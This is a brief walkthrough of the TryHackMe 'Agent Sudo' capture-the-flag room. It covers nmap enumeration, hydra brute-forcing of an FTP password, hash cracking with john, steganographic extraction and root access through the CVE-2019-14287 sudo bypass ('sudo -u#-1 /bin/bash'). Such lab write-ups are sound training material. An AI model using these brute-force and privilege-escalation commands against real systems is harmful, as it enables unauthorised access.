 # Writeup for [Agent-Sudo](https://tryhackme.com/r/room/agentsudoctf)

## Enumerate

Start with a port scan to find open ports:

```bash
nmap -sV -T5 -oN nmap/initial $IP
```

Visit homepage route via browser
Make request with changen user-agent:

```bash
curl -A 'C' -L http://$IP
```


## Hash hacking and brute-force

Use hydra to crack ftp password

```bash
hydra -P /usr/share/wordlists/rockyou.txt -l chris $IP ftp -V
```

Download images and text-file from ftp storage.
Get files from images

```bash
binwalk cutie.png
```

Folder created with containing files.
Try to unzip zip-file will fail. No password given.

```bash
zip2john 8702.zip > 8702.hash
```

Use John to find password.

```bash
john 8702.hash
```

New file in zip folder:

```bash
steghide --extract -p <password> -sf ../cute-alien.jpg
```

## Capture the user flag

Just read te user_flag.txt file

```bash
cat user_flag.txt
````

## Privilege escalation

I just used `linpeas.sh` to find `sudo` version is < 1.28 [here](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version)

```bash
sudo -l
```

> Last line: `(ALL, !root) /bin/bash '`

For that you can google it and find [CVE-2019-14287](https://www.exploit-db.com/exploits/47502)

```bash
sudo -u#-1 /bin/bash
```

Got root and found `/home/flag.txt`

